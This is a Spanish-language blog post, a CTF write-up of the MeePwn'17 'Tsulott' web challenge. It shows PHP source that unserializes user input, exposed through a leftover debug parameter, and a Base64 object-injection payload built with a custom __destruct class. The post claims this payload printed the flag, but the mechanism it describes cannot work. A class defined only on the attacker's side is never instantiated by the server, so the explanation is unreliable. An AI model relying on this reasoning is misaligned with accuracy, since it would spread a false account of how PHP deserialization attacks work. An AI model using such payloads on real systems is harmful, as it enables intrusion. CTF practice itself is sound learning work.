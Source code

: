 ```yaml
---
layout: post
title:  "Meepwn Tsulott"
date:	2017-09-28 14:19:38 +0200
author: foo
categories: es ctf meepwn write-up
lang: es
ref: meepwn-web
---
```



Hace mucho tiempo que no escribo nada aquí, así que quizá ya es hora de arreglar eso...

---

**NOTA: Si quieres probar este reto por tu cuenta,
[aquí](/assets/posts/2017-09-28-meepwn-web/code.tar.gz) están todos los materiales
necesarios para hacerlo (aunque tendrás que ponerlo en un servidor que soporte PHP,
puesto que no funcionará si no).**

---


Este es el write-up del único reto que completé en el
[MeePwn'17 CTF](https://ctftime.org/event/486). Por alguna razón, la página no paraba de
decirme que "dejara de spamear flags" mientras intentaba subir la solución; así que
simplemente me di por vencido y me puse a otra cosa.

De cualquier modo, el primer reto que miré era el titulado _Tsulott_. La página web en la
que hay que buscar la bandera parece muy bonita:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/first_recon.png"
	title="Página web"
	alt="Primer reconocimiento de la página web"
%}

La primera cosa que hay que hacer es mirar en el HTML, ya que muchos de estos retos son
simples y, normalmente, hay comentarios con pistas. En este caso, hay un comentario al
final de la página que nos hace pensar que hay una opción de depuración (_debug_) y
alguien se olvidó de quitarla en producción:
```html
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<!-- GET is_debug=1 -->
</body>
```

Cosas como esta pueden pasar (aunque no tan obvias como aquí, pero aún así...), y podemos
aprovecharnos del error de alguien simplemente haciendo una petición a
`[url]/?is_debug=1`. Y _violà_, aquí está el código del servidor:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/code.png"
	title="Opción de depuración puesta a 1"
	alt="Respuesta del servidor cuando 'is_debug' está a 1"
%}

Ahora tenemos que examinar este nuevo código PHP:

{% highlight php linenos %}
<?php
    class Object
    {
        var $jackpot;
        var $enter;
    }
?>


<?php

    include('secret.php');

    if (isset ($_GET ['input']))
    {
        $obj = unserialize (base64_decode ($_GET ['input']));

        if ($obj)
        {
            $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);

            if ($obj->enter === $obj->jackpot)
            {
                echo "<center><strong><font color='white'>"
                    . "CONGRATULATION! You Won JACKPOT PriZe !!!"
                    . "</font></strong></center>"
                    . "<br><center><strong>"
                    . "<font color='white' size='20'>"
                    . $obj->jackpot
                    . "</font></strong></center>";

                echo "<br><center><strong><font color='green' size='25'>"
                    . $flag . "</font></strong></center><br>";

                echo "<center><img "
                    . "src='http://www.relatably.com/m/img/"
                    . "cross-memes/5378589.jpg' /></center>";
            }
            else
            {
                echo "<br><br><center><strong>"
                    . "<font color='white'>Wrong! True Six "
                    . "Numbers Are: </font></strong></center>"
                    . "<br><center><strong><font color='white'"
                    . " size='25'>"
                    . $obj->jackpot
                    . "</font></strong></center><br>";
            }
        }
        else
        {
            echo "<center><strong><font color='white'>- Something wrong,"
                . " do not hack us please! -</font></strong></center>";
        }
    }
    else
    {
        echo "";
    }
?>

<?php
    if (isset ($_GET ['gen_code']) && !empty ($_GET ['gen_code']))
    {
        $temp = new Object;
        $temp->enter = $_GET ['gen_code'];

        $code = base64_encode (serialize ($temp));

        echo '<center><font color=\'white\'>Here is your code,"
            . " please use it to Lott: <strong>'
            . $code. '</strong></font></center>';
    }
?>

<?php
    if (isset ($_GET ['is_debug']) && $_GET ['is_debug'] === '1')
    {
        show_source (__FILE__);
    }
?>
{% endhighlight %}


Tras un par de minutos leyendo este código, podemos ver que hay un fallo en el modo de
manejar la entrada de usuario, que no es tratada correctamente (línea 16). Podemos
aprovecharnos de la deserialización para
[inyectar un objeto](https://www.owasp.org/index.php/PHP_Object_Injection), codificado en
Base64 y pasado usando el parámetro `input`.

Esta vulnerabilidad funciona del siguiente modo:

  - Creamos una clase, `Exploit`, que implementa sólo un método: `__destruct ()`. Este
	método será llamado cuando el objeto se destruya. El código de dentro puede ser tan
	sencillo como `var_dump ($flag);`

  - Un objeto, instancia de esta nueva clase, es serializado y codificado en Base64. Este
	será el valor del parámetro `input`.

  - El servidor recibe la cadena en Base64 y, tras decodificarla, llama al método
	`unserialize ()`. Este método crea un nuevo objeto con la información almacenada en
	esta cadena. En este caso, una instance de nuestra nueva clase es creada y, al
	destruirse, invoca al método `__destruct ()` que muestra el contenido de la bandera.


Aquí está la creación del _exploit_ y el resultado final:
```php
$ php -a
Interactive mode enabled

php > class Exploit
php > {
php {	function __destruct ()
php {	{
php {		var_dump ($flag);
php {	}
php { }
php > echo base64_encode (serialize (new Exploit ()));
PHP Notice:  Undefined variable: flag in php shell code on line 5
NULL
Tzo3OiJFeHBsb2l0IjowOnt9
php >
```

Cuando se accede a `/?input=Tzo3OiJFeHBsb2l0IjowOnt9`, obtenemos la bandera:


{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/flag.png"
	title="Exploit en acción"
	alt="Respuesta del servidor al exploit, con la bandera"
%}

Finalmente, la bandera es `MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}`.


Me gustaría haber podido probar el resto de retos; pero, por desgracia, la página no me
dejaba subir las banderas. Sin embargo, me lo pasé bien con este reto y aprendí algo, así
que al menos dejé el CTF con buena impresión.
